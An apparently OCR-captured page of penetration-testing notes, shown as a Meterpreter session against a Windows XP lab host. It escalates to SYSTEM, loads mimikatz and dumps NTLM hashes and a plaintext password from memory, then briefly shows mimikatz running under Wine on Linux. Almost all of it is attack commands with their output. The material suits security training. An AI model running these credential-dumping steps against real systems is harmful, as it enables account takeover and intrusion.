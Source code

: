 meterpreter > getuid
Server username: WINXP-E95CE571A1\Administrator

meterpreter > getsystem
...got system (via technique 1).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
Reading Hashes and Passwords from Memory
meterpreter > load mimikatz
Loading extension mimikatz...success.

meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;78980  NTLM       WINXP-E95CE571A1  Administrator     lm{ 00000000000000000000000000000000 }, ntlm{ d6eec67681a3be111b5605849505628f }
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;56683  NTLM                                          n.s. (Credentials KO)
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  n.s. (Credentials KO)

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     
0;56683  NTLM                                          
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   
0;78980  NTLM       WINXP-E95CE571A1  Administrator     SuperSecretPassword


meterpreter > mimikatz_command -f sekurlsa::searchPasswords
[0] { Administrator ; WINXP-E95CE571A1 ; SuperSecretPassword }

meterpreter > mimikatz_command -f sekurlsa::logonpasswords
Mimikatz on Linux
In case no VM is available

step 1
winetricks msasn1
step 2
╰─>$ wine /usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
0009:err:winediag:SECUR32_initNTLMSP ntlm_auth was not found or is outdated. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can find it in the winbind package of your distribution.
